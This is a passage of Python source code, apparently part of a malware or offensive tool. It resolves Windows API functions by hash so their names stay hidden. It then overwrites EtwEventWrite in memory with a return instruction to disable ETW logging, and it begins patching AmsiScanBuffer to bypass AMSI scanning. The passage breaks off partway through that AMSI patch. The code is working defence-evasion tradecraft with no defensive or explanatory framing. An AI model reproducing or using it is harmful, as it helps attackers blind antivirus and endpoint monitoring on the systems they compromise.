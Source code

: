 ```python
        # Get module bases
        self.ntdll_base = self.api_resolver.get_module_base_hashed(ntdll_hash)
        self.kernel32_base = self.api_resolver.get_module_base_hashed(kernel32_hash)
        self.amsi_base = self.api_resolver.get_module_base_hashed(amsi_hash)
        
        # Resolve functions by hash
        self.etw_event_write = self.api_resolver.get_proc_address_hashed(
            self.ntdll_base, 0x9B4C8D73  # EtwEventWrite
        )
        self.amsi_scan_buffer = self.api_resolver.get_proc_address_hashed(
            self.amsi_base, 0xE19D5C42  # AmsiScanBuffer
        )
        
        # Create function pointers
        self.VirtualProtect = ctypes.WINFUNCTYPE(
            wintypes.BOOL, ctypes.c_void_p, ctypes.c_size_t,
            wintypes.DWORD, ctypes.POINTER(wintypes.DWORD)
        )(self.api_resolver.get_proc_address_hashed(
            self.kernel32_base, 0x7946C61B  # VirtualProtect
        ))
    
    def patch_etw(self) -> bool:
        """Patch ETW using hashed APIs"""
        if not self.is_windows or 'etw' in self.evasion_applied:
            return False
        
        try:
            if not self.etw_event_write:
                return False
            
            # Patch with RET instruction
            old_protect = wintypes.DWORD()
            if not self.VirtualProtect(
                self.etw_event_write, 1, 0x40,
                ctypes.byref(old_protect)
            ):
                return False
            
            ctypes.c_ubyte.from_address(self.etw_event_write).value = 0xC3
            
            self.VirtualProtect(
                self.etw_event_write, 1, old_protect.value,
                ctypes.byref(old_protect)
            )
            
            self.evasion_applied.add('etw')
            return True
            
        except:
            return False
    
    def bypass_amsi(self) -> bool:
        """Bypass AMSI using hashed APIs"""
        if not self.is_windows or 'amsi' in self.evasion_applied:
            return False
        
        try:
            if not self.amsi_scan_buffer:
                return False
            
            # Patch AmsiScanBuffer
            old_protect = wintypes.DWORD()
            if not self.VirtualProtect(
```